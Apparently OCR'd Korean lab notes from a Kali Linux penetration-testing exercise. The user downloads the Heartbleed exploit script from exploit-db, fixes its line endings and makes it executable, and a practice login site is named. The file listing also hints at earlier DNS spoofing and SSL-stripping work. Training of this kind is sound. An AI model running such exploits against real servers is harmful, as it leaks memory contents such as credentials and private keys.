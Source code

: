 ###### 칼리

root@KH200-kali:~# wget https://www.exploit-db.com/download/32745 -O heartbleed.py

root@KH200-kali:~# ls -l

```
합계 52
drwxr-xr-x 2 root root 4096  3월  6  2017 Desktop
drwxr-xr-x 2 root root 4096  3월  6  2017 Documents
drwxr-xr-x 2 root root 4096  3월  6  2017 Downloads
drwxr-xr-x 2 root root 4096  3월  6  2017 Music
drwxr-xr-x 2 root root 4096  3월  6  2017 Pictures
drwxr-xr-x 2 root root 4096  3월  6  2017 Public
drwxr-xr-x 2 root root 4096  3월  6  2017 Templates
drwxr-xr-x 2 root root 4096  3월  6  2017 Videos
-rw-r--r-- 1 root root   32 10월 26 13:28 dnsspoof.txt
-rw-r--r-- 1 root root 4324 10월 27 12:15 heartbleed.py
-rw-r--r-- 1 root root  179 10월 27 10:25 strip.log
-rw-r--r-- 1 root root 1644 10월 26 16:40 webmitm.crt

```



###### XP

pentest.co.kr -> 로그인 



###### 칼리



```
: set fileformat=unix
-> 이거 치고 저장
```

root@KH200-kali:~# chmod 755 heartbleed.py

root@KH200-kali:~# ls -l

```
합계 52
drwxr-xr-x 2 root root 4096  3월  6  2017 Desktop
drwxr-xr-x 2 root root 4096  3월  6  2017 Documents
drwxr-xr-x 2 root root 4096  3월  6  2017 Downloads
drwxr-xr-x 2 root root 4096  3월  6  2017 Music
drwxr-xr-x 2 root root 4096  3월  6  2017 Pictures
drwxr-xr-x 2 root root 4096  3월  6  2017 Public
drwxr-xr-x 2 root root 4096  3월  6  2017 Templates
drwxr-xr-x 2 root root 4096  3월  6  2017 Videos
-rw-r--r-- 1 root root   32 10월 26 13:28 dnsspoof.txt
-rwxr-xr-x 1 root root 4190 10월 27 12:20 heartbleed.py
-rw-r--r-- 1 root root  179 10월 27 10:25 strip.log
-rw-r--r-- 1 root root 1644 10월 26 16:40 webmitm.crt
```
